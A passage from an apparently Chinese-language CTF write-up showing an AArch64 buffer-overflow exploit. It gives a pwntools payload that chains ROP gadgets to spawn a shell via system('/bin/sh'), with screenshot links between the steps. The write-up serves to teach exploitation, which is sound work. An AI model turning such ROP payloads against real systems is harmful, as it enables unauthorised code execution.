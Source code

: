 [![](assets/1700442742-f06e859d954718f26cbc4348f9651be9.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231117183817-6b0f12aa-8535-1.png)

下面跳到main

[![](assets/1700442742-aa70f9b4ed7849dd68668c8a5d20e43e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231117183820-6cef38e8-8535-1.png)

布置`system('/bin/sh',0,0)`​

```plain
pl = b'a'*0x88 + p64(g1) 
pl+= p64(main) + p64(0x100000000) 
pl+= p64(0) + p64(g2) #x29   x30
pl+= p64(0) + p64(1) #x19 --0   x20 --1
pl+= p64(bss1) + p64(bss1+8) #x21 --addr  x22 --x0
pl+= p64(0) + p64(0) #x23 --x1  x24 --x2
pl+= p64(0) + p64(main) #x29   x30
p.sendlineafter('Hello, World\n',pl)
```

执行g1

[![](assets/1700442742-d00af5b6077c6942b7d25e8899fa1a73.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231117183824-6f565db4-8535-1.png)
